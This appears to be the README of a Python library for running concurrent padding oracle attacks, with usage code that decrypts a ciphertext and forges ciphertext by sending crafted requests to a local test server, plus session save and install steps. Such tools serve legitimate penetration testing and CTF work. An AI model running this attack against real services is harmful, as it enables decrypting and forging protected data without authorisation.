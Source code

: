 A library for padding oracle attack concurrently
---

Payload_model is a abstract class handling all details of padding oracle attack algorithm.
You should specify a subclass of payload_model and change some import methods. You can customize it to fit different environment.

[![](https://img.shields.io/pypi/v/padding-oracle-attack.svg)](https://pypi.org/project/padding-oracle-attack/)
[![](https://img.shields.io/pypi/pyversions/padding-oracle-attack.svg)](https://pypi.org/project/padding-oracle-attack/)

Usage
---
### Get clear text from cipher text
```python
from padding_oracle_attack import payload_model
import grequests
from grequests import request

class payload(payload_model):
    def padding_ok(self, resp:Response) -> bool:
        if resp.status_code == 200:
            return True
        else:
            return False

    def recover_fake_data(self, req:Request, fake_datas):
        for fake_data in fake_datas:
            if bytes.hex(fake_data) in req.url:
                return fake_data
        return None

    def make_request(self, fake_data) -> request:
        params = {
                "data": bytes.hex(fake_data)
            }

        return request("get", "http://127.0.0.1:5000", params=params)

if __name__ == "__main__":
    m = payload("3a10f84900818b1c439430600524fb0f00000000000000000000000000000000")
    m.run()
```
![record](https://github.com/lcark/padding_oracle_attack/raw/main/media/padding_snap.GIF)

### Fake cipher text via clear text
```python
...
# some code same as the former
...
if __name__ == "__main__":
    m = payload("3a10f84900818b", fake=True)
    m.run()
```
Result
---

![result](https://github.com/lcark/padding_oracle_attack/raw/main/media/result.png)

Save and Load session
---
When breaking down the execution(CTRL-C), it will save session to file 'padding-session.txt' automaticly.You can load session like below.
```python
payload = Payload(bytes.hex(exp), fake=True)
payload.load()
payload.run()
```

Installation
---
```bash
pip install padding-oracle-attack
```